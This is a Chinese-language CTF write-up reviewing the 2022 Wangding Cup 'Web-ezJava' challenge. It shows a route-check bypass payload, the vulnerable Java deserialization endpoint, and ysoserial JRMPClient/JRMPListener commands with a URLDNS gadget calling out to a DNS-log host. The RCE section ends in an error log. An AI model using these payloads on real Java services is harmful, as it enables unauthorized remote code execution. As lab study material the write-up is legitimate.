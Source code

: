 ```yaml
---
layout: about
category: about
toc: true
Researchname: 2022年网鼎杯玄武组赛题复盘-[Web-ezJava]
author: Bin4xin
permalink: /about/WANGDINGCTF2022-WEB-ezJava-Walkthrough/
desc: 「CTF」
---
```



## Web-ezJava赛题复盘

### 路由绕过

payload `http://localhost/;Evil` 绕过 `if (path.startsWith("/Evil"))`

{%highlight java%}
@ResponseBody
@RequestMapping({"/Evil"})
public String Evil(HttpServletRequest request, HttpServletResponse response) throws IOException, ClassNotFoundException {
String path = request.getRequestURI();
if (path.startsWith("/Evil"))
return "nonono!!!";
String base = request.getParameter("base");
EInputStream in = new EInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
Object a = in.readObject();
return "OK";
}
{% endhighlight %}

### EInputStream

```java
EInputStream in = new EInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
```

我们可以看到路由下base64解码了`base`参数，并传给了`EInputStream`，而我们本地调试修改成`ObjectInputStream`[^1]：

```java
ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base)));
```

可以直接RCE：

![2022-11-05-22.43.24.png](https://image.yjs2635.xyz/images/2022/11/05/2022-11-05-22.43.24.png)

所以可以看到,有很明显的反序列化的地方，不过需要做一些绕过，通过重写`ObjectInputStream::resolveClass`方法来实现的[^2]；

### Gadget

#### URLDNS

使用`URLDNS Gadget`测试一下：

```bash
java -jar ysoserial.jar JRMPClient "localhost:1099"|base64
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 URLDNS "http://dnslog"
```

攻击成功：

![2022-11-05-21.34.54.png](https://image.yjs2635.xyz/images/2022/11/05/2022-11-05-21.34.54.png)

#### RCE

[//]: # (Mark TODO)

所以为了RCE去查看了lib，本地服务没有可以直接调用的Gadget，尝试一些`cc Gadget`发现报错：

```console
ERROR 1 --- [nio-8080-exec-9] o.a.c.c.C.[.[.[/].[dispatcherServlet]    : Servlet.service() for servlet [dispatcherServlet] in context with path [] threw exception [Request processing failed; nested exception is java.lang.IllegalArgumentException: Illegal base64 character 20] with root cause

java.lang.IllegalArgumentException: Illegal base64 character 20
	at java.util.Base64$Decoder.decode0(Base64.java:714) ~[na:1.8.0_171]
···
···
	at java.lang.Thread.run(Thread.java:748) [na:1.8.0_171]
```

## REF

[^1]: [EasySpringMVC（java反序列化）](https://guokeya.github.io/post/krTn36zK9/){:target="_blank"}
[^2]: [JRMP安全问题分析-从CVE到CTF](https://xz.aliyun.com/t/5392){:target="_blank"}